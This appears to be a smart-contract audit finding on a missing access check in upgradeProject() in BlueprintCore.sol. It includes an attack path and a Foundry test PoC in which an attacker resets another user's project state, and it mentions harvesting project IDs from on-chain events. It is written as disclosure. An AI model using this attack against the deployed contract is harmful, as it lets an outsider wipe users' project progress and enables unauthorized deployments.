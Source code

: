 Old Latte Bull

Medium

# upgradeProject() can be called by anyone on projects that don't belong to him

### Summary

There are no checks on the the function `upgradeProject()` and anyone can call it, this will allow a malicious user ( user2 ) to reset any project infos. Which may potentially allow him to deploy other instances using the same `projectId` that belongs to `user1`

### Root Cause

In [`BlueprintCore.sol:198`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198) there is a function `upgradeProject()` which can reset any project infos to 0 with no access control checks. If you look at [`BlueprintCore.sol:221`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L221)  there is a check which allows requesting another proposal if `requestProposalID == 0`, also on [`deploymentRequest()`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L302) there is check which allows requesting deployment if `requestDeploymentID == 0`. 
Resetting these variables using `upgradeProject()` may allow deploying multiple times using the same `projectId`

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. User1 creates a project, requests proposal, and request deployment, this will send the `requestDeploymentID` to a worker which will then finish deployment.
2. User2 ( malicious ) resets the project infos using `upgradeProject()` , this will reset `requestProposalID`, `requestDeploymentID`, and `proposedSolverAddr` to 0.
3. Now the checks `require(projects[projectId].requestDeploymentID == 0` and `require(projects[projectId].requestProposalID == 0` will pass again.

Please note that an event will be emitted upon requesting proposal , so an attacker can easily get project ID's onchain ( using foundry `cast logs` for example )  and then reset the project infos.

### Impact
- Anyone can reset the progress of another user's project back to 0. 
- May allow triggering other deployments using the same `projectId` , using a project that belongs to another user, since the require statements will pass.
( No event is emitted on upgradeProject, which means no one knows it’s happening until it’s too late ).


### PoC

Please run the test using `forge test --mt test_MaliciousUpgradeProject -vvvv` to view the details of `getProjectInfo()` to check that it has been resetted.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract AuditTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;
    address public user = address(0x1338);
    address public attacker = address(0x1337);

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }


    function test_MaliciousUpgradeProject() public {

        // user create project and deployment request
        vm.startPrank(user);
        blueprint.createProjectIDAndDeploymentRequest(
            projectId,"test base64 param", "test server url"
        );

        blueprint.getProjectInfo(projectId);

        // malicious user upgrade project
        vm.startPrank(attacker);
        blueprint.upgradeProject(projectId);

        blueprint.getProjectInfo(projectId);
        
    }


}
```

### Mitigation

_No response_